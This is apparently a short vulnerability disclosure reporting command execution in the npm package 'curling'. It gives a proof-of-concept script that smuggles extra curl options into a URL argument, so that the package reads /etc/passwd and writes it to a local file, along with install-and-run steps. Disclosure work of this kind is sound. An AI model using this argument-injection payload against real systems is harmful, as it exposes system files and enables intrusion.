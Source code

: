 # Description

Remote Code Execution (RCE) in curling

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const curling = require('curling');

curling.run('file:///etc/passwd -o ./out.js', function(d, payload){console.log(payload)});
```

2. Execute the following commands in terminal:

```
npm i curling # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution. And view the content in out.js
